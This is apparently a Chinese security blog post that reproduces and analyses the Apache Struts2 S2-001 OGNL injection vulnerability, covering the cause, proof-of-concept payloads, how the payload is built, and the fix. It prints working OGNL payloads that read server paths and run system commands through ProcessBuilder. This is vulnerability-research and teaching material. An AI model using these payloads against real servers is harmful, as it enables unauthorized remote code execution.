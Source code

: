 ```yaml
---
title: s2-001复现分析
date: 2021-08-10 21:05:49
categories:
- 代码审计
tags:
- struts2
- s2-001
# description: 描述
# comments: 是否可以评论（默认true：可评论）
cover: index.jpg
---
```


## 1.漏洞原因
官方说明：
https://cwiki.apache.org/confluence/display/WW/S2-001

```shell
The 'altSyntax' feature of WebWork 2.1+ and Struts 2 allows OGNL expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an OGNL expression that will then be executed by the server if the form validation has failed. For example, say we had this form that required the 'phoneNumber' field to not be blank:
```

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

```shell
The user could leave the 'phoneNumber' field blank to trigger the validation error, then populate the 'name' field with `%`{1+1}. When the form is re-displayed to the user, the value of the 'name' field will be '2'. The reason is the value field is, by default, processed as %{name}, and since OGNL expressions are evaluated recursively, it is evaluated as if the expression was `%`{`%`{1+1}}.

The OGNL parsing code is actually in XWork and not in WebWork 2 or Struts 2.
```

### 简单翻译就是：
WebWork 2.1+和Struts2的“altSyntax”功能允许将OGNL表达式插入文本字符串并进行递归处理。 这允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行。 例如，假设我们有一个要求'phoneNumber'字段不为空的表格：

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

用户可以将“ phoneNumber”字段留空以触发验证错误，然后在“ name”字段中填充％{1 + 1}。 当表单重新显示给用户时，“名称”字段的值将为“ 2”。 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

OGNL解析代码实际上在XWork中，而不在WebWork 2或Struts 2中。


关键点在这两句话：

1. 允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行

2. 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。


第一句话的理解：

OGNL表达式的字符串,如果表单验证失败，则字符串由服务器执行。

OGNL表达式字符串：

https://xz.aliyun.com/t/2672#toc-3 可以看这篇文章，有详细的介绍。

https://juejin.cn/post/6844904013683507207 ognl语法介绍

表单验证失败：

在使用了s2`<s>`标签时，验证失败返回首页时会将表达式内容执行并返回到标签框中。

第二句话理解：

参考：https://b1ue.cn/archives/93.html

默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

我们输入了`%{233*233}`按理应该返回`%{233*233}`。但是s2会给输入加上`%{}`,所以变成了`%{`%`{233*233}}`。因为translateVariables方法递归执行了ognl表达式。所以计算了`233*233`。
`altSyntax` 功能允许将OGNL表达式插入到文本字符串中并以递归方式处理。

## 2.poc利用
poc:

```java
%{1+1}
```
![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-001复现分析/2.1.png)

获取tomcat路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取web路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```


命令执行payload:

```java
%25{`%`23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),%23b%3d%23a.getInputStream(),%23c%3dnew+java.io.InputStreamReader(%23b),%23d%3dnew+java.io.BufferedReader(%23c),%23e%3dnew+char[50000],%23d.read(%23e),%23f%3d%23context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),%23f.getWriter().println(new+java.lang.String(%23e)),%23f.getWriter().flush(),%23f.getWriter().close()}
```

执行结果：

![2.1.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-001复现分析/2.2.png)


## 3. poc构建分析

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```

ognl表达式构建对象。执行命令。

`#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),`命令执行存储到a属性,申请一个存储流到e属性，调用`com.opensymphony.xwork2.dispatcher.HttpServletResponse`进行回显。

## 4.漏洞分析
https://b1ue.cn/archives/93.html

## 5.漏洞修复

官方给出的修复方案是将altSyntax默认关闭，使用break打断递归查询。

反编译对比xwork-2.0-beta-1.jar和xwork-2.0.5.jar：

![5.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/s2-001复现分析/5.1.png)

发现在xwork-2.0.5中将返回改成了break。以此来修复递归执行ognl表达式。
